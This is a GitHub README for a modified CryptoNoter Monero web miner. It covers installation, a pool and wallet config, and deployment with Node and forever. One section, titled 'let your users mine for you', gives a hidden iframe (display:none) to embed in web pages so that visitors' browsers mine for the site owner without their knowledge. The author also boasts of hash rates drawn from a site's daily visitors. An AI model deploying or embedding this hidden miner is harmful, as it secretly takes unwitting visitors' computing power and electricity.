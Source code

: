 ## Monero(XMR) Web Miner
Monero(XMR) Web Miner modified version from cryptonoter/CryptoNoter. Check the original repository in https://github.com/cryptonoter/CryptoNoter.


## Requirements
The project is basically a "Plug & Play" installation. Most of the configurations are setup automatically when you run the installation. Simply follow the step by step installation. 

However, if you decide to modify or optimize CryptoNoter for maximum mining capabilities, you will need good knowledge on Nginx Reverse Proxy, javascript, etc. For example, I did approx 1550 H/s for a website with approx 15,000 daily visitors (Avg Time on Page: 55 secs / visitor) before optimization. After optimization, I did on avg 3500 H/s. After the latest update (18/12/17), I am doing 4300 H/s. （现在直接用的nodejs，没用nginx，性能应该没那么高）

`Minimum System Requirements`
1. Server with at least 1 CPU, 1 GB Ram & 8GB Harddisk [You will need better specs if you have higher traffic load]
2. Ubuntu(Debian) OS
3. Nodejs, NPM & Forever Packages


## Installation
首先保证自己装好了nodejs
### 下载
``` bash
git clone https://github.com/nladuo/xmr-web-miner.git
cd xmr-web-miner && npm install 
```
### 安装软件
``` bash
npm install -g forever
npm install -g http-server
```

## Configuration
### 修改config.json
``` json
{
    "lhost": "10.18.92.38",
    "lport": 7777,
    "domain": "10.18.92.38",
    "pool": "pool.supportxmr.com:5555",
    "addr": "44tSv6j2X8J2HpcHPxd9G7L2PxawZCr7MaxsA3F8QDwC7j25cyqjS9PMK2EcWPz77qavwsgh61a5EF1VBsPM27PDQEeMoLP",
    "pass": "x10"
}
```
### 配置HTTP
修改web目录中processor.js、worker.js、miner.html、lib/cryptonoter-asmjs.min.js中的"[http://10.18.92.38:7777/]()"和"[ws://10.18.92.38:7777/]()"改成你自己的。

### 配置HTTPS
- 首先搞好证书
- 把上面的"[http://10.18.92.38:7777/]()"换成"[https://域名:端口/]()"
- 把上面的"[ws://10.18.92.38:7777/]()"换成"[wss://域名:端口/]()"

## Deployment
### 调试运行
``` bash
node xmr-server.js
```

### 使用forever
``` bash
forever start xmr-server.js
```
## 让你的用户帮你挖矿
### 嵌入iframe到你的网页
``` html
<iframe style="display: none;" src="http://10.18.92.38:7777/miner.html" name="iframe_xmr"></iframe>
```
### 效果
``` bash
cd test_miner
http-server # 然后打开http://localhost:8080/test_miner.html
```
![](test_miner/result.png)
## Donations To Support
* There is NO DEVELOPER FEE hardcoded into this project. Donation is as per your goodwill to support my development.
I am looking to add other cryptonote currencies support into this project and also to create a monero pool specifically for javascript browser mining. If you are interested in my future developments, i would really appreciate a small donation to support this project.
```html
My Monero Wallet Address (XMR)
42zXE5jcPpWR2J6pVRE39uJEqUdMWdW2H4if27wcS1bwUbBRTeSR5aDbAxP5KCjWueiZevjSBxqNZ36Q5ANPND3m4RJoeqX
```
```html
My Bitcoin Wallet Address (BTC)
34Z53zGc888pUYRsFtxgQxRVVLKwcWtjeP
```
```html
My Litecoin Wallet Address (LTC)
MJZZ9qq8ioAecyVDD7zMDStJXpY5thH2qC
```
* PayPal Donation<br />
And if you prefer the traditional mode, you may donate to this project via PayPal by sending the donation to my PayPal email: cryptonoter@gmail.com

Last but not least, i am looking forward to hearing all of the great projects built upon this web miner project. If you've built something great, drop me an email so that i can share with my readers, users and friends.



## License
* Note: If you are implementing this project in your personal or commercial projects, please be a nice and supportive user. You may give a credit back to my project or alternatively if you wish to keep credits hidden, please kindly consider a donation to keep this project running.

MIT https://raw.github.com/cryptonoter/CryptoNoter/master/LICENSE

## Missions
Great things happen when we work together. The power of collaboration